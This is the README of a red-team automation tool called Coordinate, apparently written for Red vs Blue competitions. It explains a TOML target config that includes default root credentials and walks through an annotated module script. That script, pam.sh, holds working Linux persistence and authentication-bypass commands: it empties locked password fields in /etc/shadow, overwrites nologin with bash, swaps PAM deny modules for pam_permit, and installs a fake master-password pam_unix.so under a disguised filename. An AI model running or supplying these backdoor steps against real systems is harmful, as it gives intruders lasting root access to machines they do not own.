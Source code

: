 # Coordinate

Red team automation tool that runs many scripts in parallel on many remote boxes, assuming that you know the default creds. This is useful for deploying persistence mechanisms at minute zero in Red vs Blue competitions.

# Configuration

There are two parts to Coordinate-- the first is the config (`coordinate.toml`), which specifies targets, default creds, and modules to employ. 

The second part is the modules, which contain the scripts and logic to run through Coordinate.

Here is an configuration example for `coordinate.toml`:

```toml
NoTTY = false
ConnectionsPerBox = 5 # default to 3
CallBackIps = ["192.168.1.12","hackerbox"] # One will be randomly chosen every time we need to use one

[[target]]
Ips = ["127.0.0.1","192.168.140.138","172.17.x.129"]
ReplaceX = "1-5" # if you have an X in the above, iterate through range here
Modules = ["STARFOX",]
# user must be root or a sudoer
Username = "root"
Password = "Password1!"

[[target]]
Ips = ["10.20.10.11","10.20.10.13"]
Modules = ["ireul",]

[[module]]
Name = "ireul"
Stealthy = true # default false. up to scripts to make use of this
UseRoulette = false # default true. if false, when there are multiple ways to do something, do all of them
Level = 3 # default 0. range 0-5 where 0 is the most difficult mechanisms

[[module]]
Name = "STARFOX"
```

# Modules

For Coordinate to work, the modules must be structured in a certain way. First, the name of the module passed must be the same as a folder at the same level of Coordinate. For example, if my module was `STARFOX`, our file struture might be something like:

```bash
├── coordinate
│   ├── coordinate
│   ├── coordinate.go
│   ├── coordinate.toml
│   ├── go.mod
│   ├── go.sum
│   ├── LICENSE
│   ├── output.go
│   ├── README.md
│   └── ssher.go
├── ireul
│   ├── backdoor.sh
│   ├── fake-passwd.sh
│   ├── LICENSE
│   ├── README.md
│   └── vmware-hostd.sh
└── STARFOX
    ├── drops
    │   └── fake_pam.c
    ├── iptables.sh
    ├── pam.sh
    └── README.md
```

The second assumption is that any module scripts will end in `.sh`. That's it for structure. 

Onto module contents. For logic, there is no persistent state across files or across modules. Every file is interpreted at the same time it's executed. With that in mind, let's take a look at what `pam.sh` might look like:

```bash
# This is metadata about the file. NAME and DESC have no impact on the execution of the file.
#NAME pam
#DESC wrecks pam lol

# Any line starting with an octothorpe (#) without being a directive is treated as a comment, like this line.

# LEVEL specifies how "difficult" this mechanism is to detect and counter, so that a red teamer may be able to scale back the difficulty of the techs they're deploying. Lower is more difficult, where 0 is incredibly tough (e.g., well written rootkit) and 5 is trivial (e.g., added user).
# This defaults to 0 if it is not specified.
#LEVEL 2

# Optionally, you can set options for the script here. 'debug' means that you will see every command as it's executed, and that the script will wait for each command to finish so it can show you the stdout and stderr.
#SET debug

# These are the commands actually executed. In this case, it is removing the "passwords" for locked accounts, and permitting empty passwords in PAM's common-auth file for Debian-based systems.
sed -ie "s/*//g" /etc/shadow
sed -ie "s/\!//g" /etc/shadow
cp -f /bin/bash /bin/false
cp -f /bin/bash /usr/sbin/nologin

if [ -d "/etc/pam.d/common-auth" ]; then
    sed -ie "s/nullok_secure/nullok/g" /etc/pam.d/common-auth
fi

# Let's say that you have multiple ways to accomplish some task, e.g., circumventing PAM authentication. Roulettes will allow you to randomly select one of these techniques to execute. Sinci the script is interpreted line by line, this directive must also include how many roulette options there are.
#STARTROULETTE 3
#ROULETTE

# These commands allow authentication and substituting users if it's to the root account.
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/common-auth
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/su

#ROULETTE

# Instead of denying unsuccessful PAM authentication attempts, permit them.
sed -ie "s/pam_deny.so/pam_permit.so/g" /etc/pam.d/common-auth

#ROULETTE

# Replace pam_deny.so with pam_permit.so for Debian-based systems
cp -f /lib/x86_64-linux-gnu/security/pam_permit.so /lib/x86_64-linux-gnu/security/pam_deny.so

# This signifies the end of the roulette sections.
#ENDROULETTE

# Let's say that you've written code for a fake PAM shared object that allows one master password, as a backdoor. You can drop files with the #DROP directive. This assumes that your files are within $MODULE_PATH/drops.
#DROP fake_pam.so /tmp/systemd-cache

# Which you can then interact with using normal commands on the remote system.
gcc /tmp/systemd-cache -o /tmp/systemd-cache-compiled
cp -f /tmp/systemd-cache-compiled /lib/x86_64-linux-gnu/security/pam_unix.so

# If you want to see the output of a command, you can tell Coordinate to wait for it with the #OUTPUT directive.
#OUTPUT cat /etc/os-release

# If you want to take some conditional action based on the output of a command, but you want it to affect meta-tags/directives, you can use IFCMD. This is slower than using native if/else/fi within the shell.
#IFCMD cat /etc/password | grep "bob"

# You can print to the terminal with "red" or negative messages, or "green" or positive messages.
#PRINT_RED Bob is still on their system!

# Again, unlike native execution control, these directives control whether or not Coordinate will process a directive. In this example, if the string 'bob' is found in /etc/passwd, Coordinate will print the red message above. Otherwise, it will print the message below.
#ELSE

#PRINT_GREEN Bob has been removed! Good job blue team!

#ENDIF

# If you wanted to drop a callback/reverse shell script, you can use the text '#CALLBACK_IP' and Coordinate will replace it with a configured callback IP.
# TODO example of pam_exec callback ip
```

